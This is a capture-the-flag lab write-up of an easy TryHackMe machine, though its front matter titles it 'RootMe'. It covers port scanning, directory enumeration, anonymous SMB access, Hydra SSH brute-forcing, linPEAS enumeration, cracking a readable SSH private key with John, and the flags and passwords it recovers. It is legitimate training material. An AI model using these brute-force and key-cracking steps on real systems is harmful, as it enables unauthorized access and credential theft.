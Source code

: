 ```yaml
---
title: RootMe
date: 2022-04-25 17:00:00 +500
categories: [THM, easy machine]
tags: [bruteforce,hash]     # TAG names should always be lowercase
---
```



## Web App Testing and Privilege Escalation

### Find the services exposed by the machine
We are going to start with a fast Nmap scan and then a more detailed of the ports found

```bash
nmap -p- -open -T4 -v -n 10.10.31.125
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
```

```bash
nmap -p- -open -T4 -v -n 10.10.31.125
```

```
PORT     STATE  SERVICE       VERSION
22/tcp   open   ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db45cbbe4a8b71f8e93142aefff845e4 (RSA)
|   256 09b9b91ce0bf0e1c6f7ffe8e5f201bce (ECDSA)
|_  256 a5682b225f984a62213da2e2c5a9f7c2 (ED25519)
80/tcp   open   http          Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
445/tcp  open   netbios-ssn   Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1339/tcp closed kjtsiteserver
8009/tcp open   ajp13         Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### What is the name of the hidden directory on the web server(enter name without /)?

Going to the site there's nothing helpful, but in the source code, there's a comment "Check our dev note section if you need to know what to work on." this might be a hint. anyway let's run a directory scan with Gobuster

```bash
gobuster dir -u 10.10.31.125 -w /usr/share/dirb/wordlists/common.txt
```

and sure it was, the scan found the /development directory. in there, we found two notes

```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

```

2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

from this we can deduct things, there are two potential users -J and -K, the user -J has a weak password, and they're using some software with version 2.5.12

### User brute-forcing to find the username & password

I don't how I was supposed to brute force the username but doing reconnaissance on the smb service I found a Anonymous share that I can log into, and there it was a note with the usernames

```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

### What is the username?

> jan

### What is the password?

now I guess this is the part where I have to brute force, and by discard, I'll brute force the ssh service. For this I'll use hydra, the syntax is:
hydra -l [user] -P [passlist] [ip] -t 64 ssh
- t being the number of parallel task

```terminal
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.31.125 -t 64 ssh
```

and we got a password!

```
[22][ssh] host: 10.10.31.125   login: jan   password: armando
```

> armando

### What service do you use to access the server(answer in abbreviation in all caps)?

> SSH 

### Enumerate the machine to find any vectors for privilege escalation

I didn't find anything doing a quick enum so I'll try to use linPEAS as the hint also say.

I don't have writing permissions on my home directory so I'll transfer the file to the /dev/shm directory which is for creating temporary files and we have writing permissions there using scp.

```terminal
scp ./linpeas.sh jan@10.10.31.125:/dev/shm
```
then make it executable and run it 

```terminal
chmod +x linpeas.sh
./linpeas.sh
```

kay id_rsa key is readable


### What is the name of the other user you found(all lower case)?

checking the /home directory we can see that is:

> kay

### If you have found another user, what can you do with this information?

since we know that kay id_rsa key is readable let's try to crack it with john

first, we convert it to a format that john understand with ssh2john

```terminal
ssh2john id_rsa > hash
```

then we can crack the passphrase with:
```terminal
john -w=/usr/share/wordlists/rockyou.txt hash
```
 
this gave us 
```
beeswax          (id_rsa)
```

now let's try to connect to this user.

remember to give permissions to the id_rsa key
```
chmod 600 id_rsa
```

and now we connect with:
```terminal
ssh -i id_rsa kay@10.10.31.125
```

we put in the passphrase that we cracked, and we are in!

### What is the final password you obtain?

now that we are in we can read the file pass.bak that we saw previously in the enum phase, which contained this password.

> heresareallystrongpasswordthatfollowsthepasswordpolicy$$
